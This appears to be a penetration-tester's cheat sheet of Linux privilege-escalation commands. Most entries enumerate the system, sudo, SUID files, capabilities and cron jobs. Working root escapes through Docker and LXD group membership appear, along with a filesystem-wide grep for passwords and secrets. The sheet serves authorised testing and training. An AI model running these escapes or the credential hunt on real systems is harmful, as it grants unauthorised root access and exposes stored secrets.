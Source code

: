 ```yaml
---
icon: linux
---
```


# Linux Privilege Escalation

## LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can blacklist words on the `grep -Ev` section.

For example, to filter the actual user processes: `grep -Ev "kworker|$USER"`
{% endhint %}

{% code overflow="wrap" %}
```bash
while true; do new=$(ps -eo user,cmd); diff <(echo "$old") <(echo "$new") | grep -E "<|>" | grep -Ev "kworker"; old=$new; done
```
{% endcode %}

## User Files

```bash
find / -xdev -user <user> 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -P -a -i -R --exclude="*."{js,css,html} "(\b\w*(pass|pwd|auth|secret)\w*\b\s*[:=]\s*\S+)|['\"]\s*\w*(pass|pwd|auth|secret)\w*\s*['\"]\s*:\s*['\"]\S+['\"]|\(\s*['\"]\w*(pass|pwd|auth|secret)\w*['\"]\s*,\s*['\"]\S+['\"]\s*\)|(\w+://\S+:\S+@)|(\\$\w{1,4}[\\$./A-Za-z0-9]{8,50})"
```
{% endcode %}

